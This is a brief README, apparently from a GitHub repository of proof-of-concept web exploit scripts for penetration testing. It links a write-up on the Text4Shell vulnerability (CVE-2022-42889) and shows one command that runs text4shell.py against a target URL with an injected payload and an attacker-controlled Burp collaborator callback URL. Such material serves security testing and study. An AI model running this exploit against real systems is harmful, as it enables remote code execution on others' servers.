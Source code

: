 # Web Exploits

POC exploit scripts for web pentesting


## Usage/Examples

[Text4Shell A Vulnerability in Java library Apache Commons Text (CVE-2022-42889)] (https://infosecwriteups.com/text4shell-poc-cve-2022-42889-f6e9df41b3b7)

- Replace the URL containing the {{exploit}} placeholder, which will be replaced with the payload. Replace <collaborator_url> with your controlled URL from Burp, utilized as part of the payload.

```bash
python3 text4shell.py -u http://localhost/text4shell/attack?search={{exploit}} -c <collaborator URL>
```
